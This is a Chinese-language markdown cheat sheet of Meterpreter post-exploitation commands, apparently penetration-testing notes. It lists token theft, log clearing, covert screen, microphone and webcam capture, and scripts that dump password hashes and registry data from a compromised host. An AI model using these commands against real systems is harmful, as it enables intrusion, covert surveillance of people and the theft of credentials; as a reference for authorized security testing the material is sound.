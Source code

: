## Meterpreter

部分内置命令：

| 命令              | 简述                                                      |
| ----------------- | --------------------------------------------------------- |
| route             | 显示路由信息                                              |
| arp               | 查看 arp 缓存                                             |
| getproxy          | 显示代理配置                                              |
| portfwd           | 端口转发                                                  |
| load -l           | 列出所有可用的扩展                                        |
| steal_token <pid> | 令牌窃取                                                  |
| migrate <pid>     | 会话迁移（migrate -N explorer.exe）                       |
| edit <file>       | 编辑文件                                                  |
| show_mount        | 列出所有挂载点（磁盘）                                    |
| clearev           | 清除日志                                                  |
| ……                | ……                                                        |
| idletime          | 查看机闲置时间                                            |
| enumdesktops      | 用户登录数                                                |
| screenshot        | 屏幕截取                                                  |
| screenshare       | 屏幕共享，实时监视目标用户桌面                            |
| record_mic        | 使用目标麦克风记录声音                                    |
| webcam_list       | 列出目标机器上的摄像头                                    |
| webcam_snap       | 摄像头拍照（webcam_snap -i 1 -v false 每隔 1 秒拍一次照） |
| webcam_stream     | 摄像头开启视频                                            |
| webcam_chat       | 视频聊天                                                  |

[内置脚本](https://www.offsec.com/metasploit-unleashed/existing-scripts/)：

| 使用命令    | 简述                                               |
| ----------- | -------------------------------------------------- |
| run scraper | 获取系统环境、哈希、注册表、服务、共享等。（推荐） |
| run winenum | 获取系统信息、用户信息，转储令牌等。               |

执行结果一般会保存在 `~/.msf4/logs/scripts/<module_name>/<target_timestamp>` 目录下。

### 文件操作
